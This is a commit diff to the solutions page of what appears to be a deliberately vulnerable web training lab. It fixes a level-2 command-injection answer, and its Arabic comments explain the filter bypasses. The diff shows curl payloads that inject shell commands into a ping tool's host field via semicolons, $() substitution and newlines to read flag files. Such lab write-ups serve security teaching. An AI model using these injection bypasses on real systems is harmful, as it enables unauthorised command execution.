

Before and after one commit to Kadanov/0xweb, a Markdown page: SOLUTIONS.md, the part around the change. GitHub-like rendering.

Commit message:
Fix cmdi L2 solution: ';' is stripped at level 2, bypass via $()/backticks/newline
Co-Authored-By: Claude Opus 4.8 <noreply@anthropic.com>

````diff
--- a/SOLUTIONS.md
+++ b/SOLUTIONS.md
@@ -52,7 +52,7 @@ s=""; for i in $(seq 1 26); do for c in $(printf '%s ' F L A G { } _ 0 x w e b s
 ملف علم لكل مستوى؛ استخدم تقنية تجاوز المستوى:
 ```bash
 curl -G "$B/tools/ping" --data-urlencode level=1 --data-urlencode "host=127.0.0.1;cat /tmp/flag_cmdi_l1.txt"           # _l1
-curl -G "$B/tools/ping" --data-urlencode level=2 --data-urlencode 'host=127.0.0.1;echo $(cat /tmp/flag_cmdi_l2.txt)'  # _l2 ($() لأن ; مسموح لكن &|&& محذوفة)
+curl -G "$B/tools/ping" --data-urlencode level=2 --data-urlencode 'host=127.0.0.1$(cat /tmp/flag_cmdi_l2.txt)'  # _l2 (L2 يحذف ; && & | → استبدال أوامر $() أو `backticks` أو سطر جديد، بلا ;)
 curl -G "$B/tools/ping" --data-urlencode level=3 --data-urlencode $'host=127.0.0.1\ncat /tmp/flag_cmdi_l3.txt'         # _l3 (سطر جديد)
 ```
 
````
